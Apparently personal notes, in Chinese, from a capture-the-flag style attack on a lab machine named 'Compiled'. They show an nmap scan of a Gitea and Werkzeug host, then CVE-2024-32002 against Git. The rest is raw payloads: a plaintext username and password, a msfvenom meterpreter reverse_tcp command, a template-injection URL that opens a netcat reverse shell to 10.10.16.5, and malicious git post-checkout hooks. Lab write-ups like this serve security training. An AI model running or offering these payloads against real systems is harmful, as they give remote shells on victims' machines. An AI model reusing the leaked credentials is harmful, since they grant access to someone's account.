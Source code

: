# 服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A 10.10.11.26
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-30 04:34 EDT
Nmap scan report for 10.10.11.26
Host is up (0.53s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=0b5ac954e13131c7; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=I90LI0OFlVluSSkY1ebrQaDfOw06MTcyMjMyODU0ODQyOTQzNjgwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Tue, 30 Jul 2024 08:35:48 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-arc-green">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Git</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0Iiwic2hvcnRfbmFtZSI6IkdpdCIsInN0YXJ0X3VybCI6Imh0dHA6Ly9naXRlYS5jb21waWxlZC5odGI6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL2dpdGVhLmNvbXBpbGVkLmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vZ2l0ZWEuY29tcGlsZWQuaHRiOjMwMDA
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=5d8eb991288ca49d; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=JZFyeBG5TUM-FVPnF1q-3TOVl7s6MTcyMjMyODU1NTkwOTA1ODUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Tue, 30 Jul 2024 08:35:55 GMT
|_    Content-Length: 0
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.12.3
|     Date: Tue, 30 Jul 2024 08:35:48 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5234
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Compiled - Code Compiling Services</title>
|     <!-- Bootstrap CSS -->
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
|     <!-- Custom CSS -->
|     <style>
|     your custom CSS here */
|     body {
|     font-family: 'Ubuntu Mono', monospace;
|     background-color: #272822;
|     color: #ddd;
|     .jumbotron {
|     background-color: #1e1e1e;
|     color: #fff;
|     padding: 100px 20px;
|     margin-bottom: 0;
|     .services {
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>

```


Powered by Gitea
当前版本: 1.21.6


Server: Werkzeug/3.0.3 Python/3.12.3




Gitea上找到5000端口的源码
![](Compiled_files/1.jpg)


在Calculator项目里得知git的版本为：2.45.0.windows.1
![](Compiled_files/2.jpg)


CVE-2024-32002

chen

R2*#?n%V8e4#Hhk



msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=443 -f csharp


http://{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.10.16.5 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}.git


http://{{ __import__('os').system('ping -c 1 10.10.16.5') }}.git


echo 'cmd /c ping 10.10.16.5' > .githooks/post-checkout


cat > y/hooks/post-checkout <<EOF
#!/bin/bash
echo "amal_was_here" > /tmp/pwnd
cmd /c ping 10.10.16.5
open -a Calculator.app
EOF
